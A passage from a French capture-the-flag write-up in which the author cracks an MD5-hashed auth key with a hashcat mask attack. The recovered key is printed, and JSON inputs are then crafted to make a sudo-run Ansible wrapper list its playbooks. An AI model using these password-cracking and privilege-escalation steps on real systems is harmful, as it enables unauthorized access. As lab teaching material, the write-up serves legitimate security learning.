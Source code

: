 Ces cas de figure marchent avec les binaires originaux d'Ansible, mais pas pour notre cas de figure à cause du "wrapper" qui fait que l'on utilise ces commandes indirectement.

En essayant de lancer le binaire avec un fichier JSON vide, on a une erreur liée à une clé d'authentification : 

    sudo /opt/runner2/runner2 /tmp/json.txt
    
> Run key missing or invalid.

Cela fait penser aux fichiers trouvés dans le FTP avec Adam. En effet, il y avait pas mal d'informations sur le premier runner, et notamment le hash de la clé + ses premiers caractères : 

    # ./runner run [playbook number] -a [auth code]
    #./runner1 run 1 -a "UHI75GHI****"
    ...
    #define AUTH_KEY_HASH "0feda17076d793c2ef2870d7427ad4ed"
    ...
    
J'ai décidé d'utiliser Hashcat en mode "Mask attack" pour tenter de casser les quatre derniers caractères.

Voir : https://hashcat.net/wiki/doku.php?id=mask_attack

Plusieurs tests ont fonctionné : 

    .\hashcat.exe -m 0 -a 3 '0feda17076d793c2ef2870d7427ad4ed' UHI75GHI?u?u?u?u
    .\hashcat.exe -m 0 -a 3 --custom-charset1=ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 '0feda17076d793c2ef2870d7427ad4ed' UHI75GHI?1?1?1?1

Clé obtenue : 

> 0feda17076d793c2ef2870d7427ad4ed:UHI75GHINKOP

En reprenant les codes trouvés plus haut et en ajoutant les paramètres au fur et à mesure dans un JSON de test, on obtient des erreurs différentes : 

> Run key missing or invalid.<br>
> ...<br>
> Action key missing or invalid.<br>
> ...<br>

Premier exemple de JSON fonctionnel pour lister les playbooks : 

    {
        "run": {
        "action": "list",
        "auth_code": "UHI75GHINKOP"
            }
    }
    
On obtient bien le nom d'un fichier YAML : 

    sudo ./runner2 /tmp/json2.txt

> 1: apt_update.yml

Ce fichier est situé dans /opt/playbooks/ mais impossible d'écrire dans ce dossier puisqu'il appartient à root.
